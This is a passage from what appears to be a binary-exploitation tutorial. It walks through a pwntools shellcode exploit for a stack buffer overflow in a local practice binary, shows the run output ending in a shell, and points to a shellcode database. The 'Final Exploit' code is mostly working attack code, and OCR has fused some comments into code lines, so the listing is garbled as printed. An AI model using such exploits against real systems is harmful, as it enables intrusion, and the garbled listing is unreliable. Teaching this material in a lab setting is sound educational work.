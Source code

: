 ```
log.info(p.clean())
p.sendline(payload)
p.interactive()
```

If you're getting an `EOFError`, print out the shellcode and try to find it in memory - the stack address may be wrong

```
$ python3 exploit.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3606
[*] Overflow me
[*] Switching to interactive mode
$ whoami
ironstone
$ ls
exploit.py  source.c  vuln
```

And it works! Awesome.

### Final Exploit

```
from pwn import *
context.binary = ELF('./vuln')
p = process()
payload = asm(shellcraft.sh())
# The shellcodepayload = payload.ljust(312, b'A')
# Paddingpayload += p32(0xffffcfb4)
# Address of the Shellcode
log.info(p.clean())
p.sendline(payload)
p.interactive()
```

## Find Shellcode Online

There are some online resources for shellcode. Sometimes the program runs input check that some characters are filtered. Using online database or pwntool's shellcode generator are both fine.

Shellcode database: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

According to the different CPU architecture and operating system, you may need different shellcode.

## Exercise
